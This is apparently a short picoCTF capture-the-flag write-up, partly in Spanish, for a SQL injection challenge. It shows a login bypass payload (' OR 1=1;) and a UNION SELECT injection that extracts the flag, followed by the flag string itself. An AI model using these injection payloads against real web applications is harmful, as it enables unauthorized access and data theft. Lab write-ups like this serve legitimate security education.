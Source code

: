 
## Descripción

Can you find the flag on this website.
Additional details will be available after launching your challenge instance.

Hints:
1. SQLiLite

## Solución 

~~~

username: admin
password: 1234
SQL query: SELECT id FROM users WHERE password = '1234' AND username = 'admin'

SQL query: SELECT id FROM users WHERE password = '1234' OR 1=1; ' AND username = 'admin'


Welcome

 ' union select 1,id, flag from more_table;
### Search Office
~~~

|City|Address|Phone|
|---|---|---|
|1|1|picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_62aa7500}|
|1|2|If you are here, you must have seen it|

~~~
picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_62aa7500}
~~~
## Notas adicionales 

Aprovechamos una inyección SQL para manipular consultas dentro del sitio. 

## Referencias

